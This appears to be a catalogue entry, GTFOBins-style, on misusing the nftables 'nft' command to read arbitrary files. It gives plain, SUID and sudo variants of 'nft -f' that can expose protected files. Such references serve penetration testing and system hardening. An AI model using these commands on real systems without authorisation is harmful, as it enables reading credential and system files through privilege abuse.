 ```yaml
---
description: The content is actually parsed and corrupted by the command, thus it may not be suitable for arbitrary files. This requires version `nftables` v0.9.0.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nft -f "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./nft -f "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nft -f "$LFILE"
---
```

